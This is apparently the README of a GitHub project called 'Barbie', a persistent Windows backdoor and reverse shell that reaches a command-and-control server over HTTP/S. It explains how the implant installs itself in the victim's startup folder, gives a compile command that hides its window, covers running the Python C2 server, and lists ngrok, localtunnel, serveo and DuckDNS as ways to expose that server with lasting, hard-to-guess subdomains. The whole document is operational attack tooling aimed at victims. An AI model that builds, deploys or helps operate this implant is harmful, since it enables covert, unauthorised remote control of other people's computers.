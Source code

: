 # Barbie
A simple, persisent windows toy backdoor/reverse-shell using HTTP/S to communicate with the C2 server.

Once the victim starts the executable it locates itself on default startup programs directory, then it tries to establish a connection.
## Setup
Edit the line 6 with your own domain.
#### Compile
`gcc barbie.c -o startupsrvc -w -mwindows`
#### Setting up your machine as temporary C2 server
Start your server with `python3 server.py`, this will run your server locally on the port 5001, feel free to change that.<br>
For using a self-signed TLS certificate add `ssl_context="adhoc"` in the last line of the code, this may cause problems if you use the below mentioned tunneling services.

To avoid different code pages i used utf-8 to decode the raw data sent by the client.<br>
See [this link](https://docs.python.org/3/library/codecs.html#standard-encodings) to see the right encoding format for your country.

Now you have to expose your localhost on the internet, there are various methods to do this:
   * Setting up port forwarding by opening the choosen port for your pc on your modem router (unless you're under a Carrier-grade NAT)
   * Using a reverse proxy to start an HTTPS tunnel:
     * [Ngrok](https://ngrok.com): `ngrok http 5001`
     * [Localtunnel](https://theboroer.github.io/localtunnel-www/): `lt --port 5001 --subdomain <choose a name>`
     * [Serveo](https://serveo.net) through SSH: `ssh -R <choose a name>.serveo.net:80:localhost:5001 serveo.net`

These services will automatically generate TLS certificates.
### Static subdomains for tunneling services
Obviously you want your subdomain to last longer.

* For ngrok see [this guide](https://ngrok.com/blog-post/free-static-domains-ngrok-users)
* For serveo and localtunnel, just choose a name that anyone wouldn't guess
  

if you're not using a tunneling service you could try [duckdns](https://www.duckdns.org/)
### Post exploitation
[Here](https://www.google.com/search?q=windows+post+exploitation)
